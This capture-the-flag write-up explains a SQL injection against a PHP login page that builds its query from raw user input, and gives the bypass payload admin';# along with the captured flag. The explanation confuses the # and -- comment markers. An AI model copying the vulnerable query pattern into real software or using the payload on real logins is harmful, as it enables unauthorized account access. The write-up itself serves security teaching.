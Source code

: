 # CTF - Week 8

## SQL Injections

> From the *index.php* code we could observe how the SQL queries were formed from a user input:

```php
    ...

    require_once 'config.php';

    $username = $_POST['username'];
    $password = $_POST['password'];
    
    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
    
    ...

```

<br>

## **For each login attempt the query to be executed will be:**
```php
SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```
- The *$username* and *$password* are information provided by the user as they try to login.

<br>

- The program checks whether any record matches with the provided username and password;
    - if there is a match, the user is successfully authenticated, and is given the corresponding user information.
    - If there is no match, the authentication fails.

<br>

- However, what the program fails to do is sanitization of the users input before the query, therefore making it vulnerable to an sql injection

<br>

## **What input would allow us to usurp the query?**

```sql
    admin';#
```

- We need to input a valid username, which most of the time admin works (like it worked on this one).
- After that, we write a an apostrophe followed by a semicolon (`';`) that will close the existing string `'".$username."'`, terminating the original query.
- Finally we put a double hyphen (`--`) after the previous input, making it so that the rest of the query is commented out, eliminating the need to have to type out a password.
    - However a password entry was mandatory, so we just typed out anything because it won't really matter as it will be commented out.

<br>

## With these changes the query sent would be:

```sql
    SELECT username FROM user WHERE username = 'admin'; -- AND  password = 'a'
```

> Since the # symbol acts as comment and everything after is ignored, the query becomes:

```sql
    SELECT username FROM user WHERE username = 'admin';
```

>  This allowed us to bypass the *"EasyVault"* service and obtain the following message:

```txt
    You have been logged in as admin

    flag{98ba2ee82ee740b3cb025dda423f48e4}
```

> Giving us the flag needed to complete the challenge.